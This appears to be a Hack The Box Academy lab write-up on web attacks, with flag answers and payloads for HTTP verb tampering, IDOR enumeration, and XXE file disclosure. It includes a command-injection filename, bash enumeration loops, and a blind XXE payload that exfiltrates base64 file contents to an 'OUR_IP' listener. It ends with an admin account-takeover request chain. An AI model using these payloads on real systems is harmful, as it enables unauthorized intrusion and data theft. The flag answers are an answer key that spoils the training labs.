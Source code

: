 # Bypassing Basic Authentication

1.  Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.

Answer: HTB{4lw4y5_c0v3r_4ll_v3rb5}

Explanation: Simple change the HTTP Verb

# Bypassing Security Filters

1. To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./

Answer: HTB{b3_v3rb_c0n51573n7}

# Mass IDOR Enumeration

1. Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

Answer: HTB{4ll_f1l35_4r3_m1n3}

The code: 

#!/bin/bash

url="http://94.237.54.116:59987/"

for i in {1..20}; do
    for link in $(curl -s -X POST -d "uid=$i" "$url/documents.php" | grep -oP "\/documents.*?\\.\\w+"); do
        curl -O $url/$link
    done
done

# Bypassing Encoded References

Answer: HTB{h45h1n6_1d5_w0n7_570p_m3}

#!/bin/bash

url="http://94.237.50.242:47361/download.php?contract="

for i in {1..20}; do
    for encodedid in $(echo -n $i | base64); do
        curl  "$url$encodedid" 
    done
done

# IDOR in Insecure APIs

1. Try to read the details of the user with 'uid=5'. What is their 'uuid' value?

Explanation: Using the Burp proxy, there is a need to change the HTTP verb from POST to GET. And after that change the profile id in the url path to 5.

# Chaining IDOR Vulnerabilities

1. Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.

Answer: HTB{1_4m_4n_1d0r_m4573r}

Explanation: Send the request to Intruder in Burp Suite and then take a profile from 0 to 50, the 10th response in API got the role=staff_admin.
Then, send the request with PUT method with data used from the Intruder Response. See the flag.


IDOR Prevention:
IDOR caused by the improper access control on the back-end servers. 
1. Object-level access control
2. Secure references for the objects. 

# Local File Disclosure
1.  Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.

Answer: UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg

Explanation: 

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">]>
<root>
<name>Dana</name>
<tel>7780052000</tel>
<email>&company;</email>
<message>I feel this</message>
</root>

# Advanced File Disclosure
1. Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').

Answer: HTB{3rr0r5_c4n_l34k_d474}

Explnation: 

echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000

<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<email>&joined;</email>

# Blind Data Exfiltration

1. Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.

Answer: HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}

Explanation: As this is XXE Blind Vulnerability, now the answer shouold be shown in open server on localhost. 
First, create the xml DTD file:

"""
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=<file>.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
"""

and then, to decode the shown content that will be in the open server output:
 
php file: index.php

<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>

php -S 0.0.0.0:8000

The XXE xml payload:

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>

# Skill Assessment

1. First, there is an api path: GET /api.php/user/74 that is authenticated with given credentials. 
2. with request id 52 the response is {"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
3. Request the /api.php/token/52 - Response: 
{"token":"e51a85fa-17ac-11ec-8e51-e78234eb7b0c"}
4. Request to change the password of the Administrator

PUT /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/settings.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=74
Sec-GPC: 1

uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=anne

5. Login to admin account

6. Request to retrieve the flag with XXE payload:

POST /addEvent.php HTTP/1.1
Host: 94.237.59.180:54333
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.59.180:54333/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 302
Origin: http://94.237.59.180:54333
DNT: 1
Connection: close
Cookie: PHPSESSID=urdfe2mq9af4tjigd118sksob5; uid=52
Sec-GPC: 1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
    <!ENTITY Test SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">]>
            <root>
            <name>&Test;</name>
            <details>qwerqwer</details>
            <date>2025-02-20</date>
            </root>

Answer: HTB{m4573r_w3b_4774ck3r}